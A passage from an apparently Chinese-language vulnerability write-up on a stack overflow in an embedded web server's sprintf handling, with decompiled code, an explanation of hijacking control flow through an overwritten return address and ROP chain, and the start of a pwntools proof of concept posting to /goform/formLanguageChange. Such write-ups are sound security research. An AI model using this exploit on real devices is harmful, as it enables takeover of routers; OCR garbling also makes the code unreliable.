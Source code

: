 ```

pcParm2 = acStack224;

}

sprintf(acStack480,

```
 "&lt;html&gt;&lt;head&gt;&lt;/head&gt;&lt;body&gt;\r\n\t\tThis document has moved to a new &lt;ahref=\"%s\"&gt;location&lt;/a&gt;.\r\n\t\tPlease update your documents to reflect the newlocation.\r\n\t\t&lt;/body&gt;&lt;/html&gt;\r\n"
      ,pcParm2); 
``` `……s

return;

}` 
```

通过第二两个sprintf修改返回地址，构造ROP链，导致程序控制流被劫持。（也可以通过两个sprintf的配合来实现栈的迁移，漏洞作者是这么实现的）

### 漏洞复现

#### poc

```
import requests
import sys
import struct
from pwn import *
#context.log_level='debug'
context.arch='mips'
context.endian='big'
ip='192.168.75.150'

def syscmd1(a):

p=remote(ip,80)

z=len(a)

print “[+]len:”+str(z)

payload=’’

payload+=‘POST /goform/formLanguageChange HTTP/1.1\r\n’

payload+=‘Host: ‘+ip+’\r\n’

payload+=‘Connection: keep-alive\r\n’

payload+=‘Accept-Encoding: gzip, deflate\r\n’

payload+=‘Accept: */*\r\n’

payload+=‘User-Agent: python-requests/2.18.4\r\n’

payload+=‘Content-Length: ‘+str(z+9)+’\r\n’

payload+=‘Content-Type: application/x-www-form-urlencoded\r\n’

payload+=’\r\n’

payload+=‘currTime=’
```